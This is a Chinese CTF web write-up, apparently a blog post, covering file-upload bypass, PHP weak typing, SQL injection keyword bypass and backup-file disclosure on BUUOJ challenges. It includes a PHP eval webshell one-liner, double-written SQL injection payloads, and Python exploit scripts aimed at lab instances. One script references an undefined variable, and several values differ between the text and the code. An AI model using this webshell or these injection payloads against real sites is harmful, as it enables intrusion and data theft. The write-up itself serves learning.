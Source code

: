 ```yaml
---
title: web刷题记录
date: 2023-04-08 17:19:47
tags:
  - CTF
  - Web
categories: Web
keywords: CTF
description: 本文记录了作者在刷CTF的Web方向题目中面临的问题以及解决方案，包含了文件上传绕过、php弱类型、sql注入绕过等知识点。
top_img: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
cover: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
# password: xdxdsqyc15511551
# message: 暂未完成，仍在施工
---
```


## [极客大挑战 2019] Upload 解题思路

1. `MIME` 绕过；修改 `content-type` 类型

2. 文件后缀检测；修改后缀名 `.phtml`

3. `<?` 检测绕过： js + php 模式；

``` html
<script language='php'>@eval($_POST['peony']);</script>
```

4. 文件头检测：添加 `GIF89a`

``` html
GIF89a <script language='php'>@eval($_POST['peony']);</script>
```

5. 确定文件上传位置：`/upload/x.phtml`

成功。

## [极客大挑战 2019] BuyFlag 解题思路

1. 发现注释中的提示：

``` html
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

![提示](https://pic.imgdb.cn/item/647c13a7f024cca173274a7a.png)

2. 使用 POST 方法提交参数 `money=100000000` 和 `password=404%00`
3. 根据提示修改 `cookie` ，将 `Cookie: user=0` 改为 `Cookie: user=1`，提交后发现长度被限制：

![反馈](https://pic.imgdb.cn/item/647c13a8f024cca173274b77.png)
4. 绕过方式：改为科学计数法：`money=1e8`。

``` POST
POST /pay.php HTTP/1.1
Host: d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7
Cookie: user=1
Connection: close

money=1e8&password=404%20
```

下面是 EXP ：

``` python
import httpx
import re

HOST = "http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81"
URL = f'{HOST}/pay.php'
DATA = {"money": "1e9", "password": "404 "}
COOKIES = {"user": "1"}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}


res = httpx.post(URL, data=DATA, cookies=COOKIES, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text) 
if match: 
    print(match.group()) 
else: 
    print("No flag found.")
```

## [极客大挑战 2019] BabySQL 解题思路

1. 将`select`、`union`、`or`、`and`、`infomation`、`where`等关键字替换为空，双写绕过即可。

``` sql
%27 || sleep(1) --+
select 1,2,3 --+
select database() --+
select group_concat(table_name) from information_schema.tables where table_schema=database() --+
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name= b4bsql --+
```

下面是 exp ：

``` python
import httpx
import re

HOST = "http://a37633c3-5c3b-4677-82e1-2270c6e28c7d.node4.buuoj.cn:81"
EVILCODE = '%27%20uunionnion%20sselectelect%201,2,group_concat(passwoorrd)ffromrom%20b4bsql%23'
URL = f'{HOST}/check.php'

params = {'username': 'admin', 'password': EVILCODE}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```

## [ACTF2020 新生赛] BackupFile 解题思路

1. 扫文件目录，工具很多，找到 `index.php.bak` 即可。
2. 根据 `index.php.bak` 中的注释提示:

``` php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }}
else {
    echo "Try to find out source file!";
}
?>
```

代码逻辑如下：

- 首先，它包含了一个叫做 `flag.php` 的文件，这个文件可能定义了一个变量 `$flag` ，用来存储一些敏感信息。
- 然后，它检查是否有一个名为 `key` 的 GET 参数传递给它。如果没有，它就输出"Try to find out source file!"。
- 如果有，它就把这个参数赋值给一个变量 `$key` ，并且使用 `is_numeric()` 函数检查这个变量是否是一个数字或者一个数字字符串。如果不是，它就退出并输出"Just num!"。
- 如果是，它就使用 `intval()` 函数把这个变量转换成一个整数，并且和一个字符串 `$str` 进行**弱类型比较**<sup>[①](#弱类型比较)</sup>。如果相等，它就输出 `$flag` 的值。

因此，只需要请求 `http://url/?key=123` 即可获取 flag 。

EXP 如下：

``` python
import httpx
import re

URL = "http://eac04754-4cdd-4807-b34a-bfa86186533e.node4.buuoj.cn:81"

params = {'key': '123'}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```

## 注释

### 弱类型比较

根据搜索结果，PHP是一种弱类型的语言，这意味着它在比较变量时会进行隐式的类型转换。PHP中有两种比较运算符：`==` 和 `===`。它们的区别是 `==` 会在比较之前将变量转换成相同的类型，而 `===` 会同时比较变量的类型和值。因此，使用 `==` 进行比较时可能会出现一些意想不到的结果，比如：

```php
<?php
$a = "0e123"; // 字符串
$b = 0; // 整数
if ($a == $b) {
    echo "true"; // 这里会输出true，因为字符串"0e123"被转换成了浮点数0.0
} else {
    echo "false";
}
?>
```

要避免这种弱类型比较的问题，可以使用 `===` 进行严格比较，或者使用一些函数来检查变量的类型，比如 `is_numeric()` , `is_int()` , `is_string()`等。